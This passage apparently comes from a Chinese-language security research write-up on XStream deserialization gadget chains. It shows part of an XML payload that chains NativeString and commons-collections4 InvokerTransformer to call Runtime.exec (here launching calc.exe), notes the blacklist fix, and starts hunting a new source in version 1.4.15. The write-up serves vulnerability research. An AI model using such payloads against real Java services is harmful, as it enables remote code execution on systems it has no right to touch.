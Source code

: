 ```xml
                                                    <unserializable-parents/>
                                                    <java.util.ArrayDeque>
                                                        <default/>
                                                        <int>0</int>
                                                    </java.util.ArrayDeque>
                                                </stack>
                                                <root class="java.lang.Runtime">

                                                </root>
                                                <transformer class="org.apache.commons.collections4.functors.InvokerTransformer">
                                                    <iMethodName>exec</iMethodName>
                                                    <iParamTypes>
                                                        <java-class>java.lang.String</java-class>
                                                    </iParamTypes>
                                                    <iArgs>
                                                        <string>calc.exe</string>
                                                    </iArgs>
                                                </transformer>
                                            </it>
                                        </msg>
                                    </part>
                                </dataHead>
                            </mimePart>
                        </part>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

#### 修复

将FileStream与NativeString加入了黑名单。

![image-20210119115303034](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/144950-886172.png)

### XStream 1.4.15

#### 新的source寻找

在1.4.15已经将NativeString加入了黑名单。但是MapConverter的处理逻辑没变，还是可以将Object.hashcode作为source入口。找遍了jdk中所有的Object.hashcode函数也没找到可用的一个source。这时候联想了一下以前分析过常见的几条jdk反序列化链，试着反序列化一下优先队列是什么情况？

构造一个优先队列，用XStream反序列化之后，输出xml。

```java
        Queue<String> q = new PriorityQueue<>();
        q.offer("apple");
        XStream xStream = new XStream();
        System.out.println(xStream.toXML(q));
```
